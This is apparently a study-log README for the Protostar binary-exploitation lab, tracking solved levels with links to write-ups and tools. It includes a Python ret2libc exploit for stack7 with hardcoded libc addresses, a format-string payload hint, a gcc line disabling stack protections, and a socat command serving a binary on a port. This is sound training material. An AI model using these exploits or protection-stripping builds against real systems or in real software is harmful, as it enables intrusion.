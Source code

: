 # Protostar

## Stack
- [x] stack0
- [x] stack1
- [x] stack2
- [x] stack3
- [x] stack4
- [x] stack5
- [x] stack6
- [x] stack7
```
import struct

padding = "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTT"
return_op = struct.pack("I",0x08048544)
call_system = struct.pack("I",0xb7ecffb0)
after_system_execution = struct.pack("I",0xb7ec60c0)
bin_sh_path = struct.pack("I",0xb7fb63bf)
print padding + return_op + call_system + after_system_execution + bin_sh_path
```

## Format String
- [x] format0
- [x] format1
- [x] format2
```
%n4u (replace 4 with additional data you want for %n )
```
- [x] format3
- [x] format4

## Heap
- [x] heap0
- [x] heap1
- [ ] heap2
- [ ] heap3

## Network

- [ ] net0
- [ ] net1
- [ ] net2

## Final
- [ ] final0
- [ ] final1
- [ ] final2

## Create a Binary with no stack canary, executable stack and no PIE (Position Independent Code)
```
gcc <input> -o <output> -fno-stack-protector -z execstack -no-pie
```

## Using socat on binary file
attaching binary to the port
```
socat TCP-LISTEN:1337,nodelay,reuseaddr,fork EXEC:"stdbuf -i0 -o0 -e0 ./<Program name>"
```

# Reference
- https://old.liveoverflow.com/binary_hacking/protostar/index.html
- https://exploit.education/protostar/
- https://ctf101.org/binary-exploitation/overview/

# Writeup & Video
- https://kevinalmansa.github.io/write-ups/Protostar-Stack-Write-up/
- https://www.youtube.com/playlist?list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN
- https://failingsilently.wordpress.com/exploit-development/
- https://www.ayrx.me/protostar-walkthrough-format ( format string writeup )

# Tools
- https://github.com/inaz2/roputils
- https://github.com/JonathanSalwan/ROPgadget
